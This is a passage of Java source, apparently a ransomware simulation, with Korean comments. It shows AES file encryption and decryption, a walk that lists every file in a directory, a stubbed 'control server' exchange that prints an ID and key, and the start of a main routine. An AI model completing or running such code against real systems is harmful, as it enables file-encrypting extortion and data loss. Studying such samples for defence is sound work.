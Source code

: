 ```java
             FileOutputStream fos = new FileOutputStream(outputFile)) {

            byte[] buffer = new byte[1024];
            int bytesRead;

            while ((bytesRead = fis.read(buffer)) != -1) {
                byte[] output = cipher.update(buffer, 0, bytesRead);
                if (output != null) fos.write(output);
            }

            byte[] outputBytes = cipher.doFinal();
            if (outputBytes != null) fos.write(outputBytes);
        }
    }

    // 파일 복호화
    public static void decryptFile(File inputFile, File outputFile, SecretKey secretKey) throws Exception {
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.DECRYPT_MODE, secretKey);

        try (FileInputStream fis = new FileInputStream(inputFile);
             FileOutputStream fos = new FileOutputStream(outputFile)) {

            byte[] buffer = new byte[1024];
            int bytesRead;

            while ((bytesRead = fis.read(buffer)) != -1) {
                byte[] output = cipher.update(buffer, 0, bytesRead);
                if (output != null) fos.write(output);
            }

            byte[] outputBytes = cipher.doFinal();
            if (outputBytes != null) fos.write(outputBytes);
        }
    }

    // 디렉토리의 모든 파일 검색
    public static List<File> findFiles(String directory) throws IOException {
        return Files.walk(Paths.get(directory))
                .filter(Files::isRegularFile)
                .map(Path::toFile)
                .collect(Collectors.toList());
    }

    // 제어 서버와의 통신 시뮬레이션
    public static void communicateWithServer(String id, String encryptedKey) {
        // 실제 서버 통신 대신 출력으로 대체
        System.out.println("Communicating with server...");
        System.out.println("ID: " + id);
        System.out.println("Encrypted Key: " + encryptedKey);
    }

    public static void main(String[] args) {
        try {
            // 1. 실행 환경 체크
            System.out.println("Operating System: " + System.getProperty("os.name"));
            System.out.println("Java Version: " + System.getProperty("java.version"));

            // 2. 키 생성 및 ID 설정
            SecretKey secretKey = generateKey();
            String id = hashWithSHA256("unique_id_" + System.currentTimeMillis()); // ID는 SHA-256으로 생성
```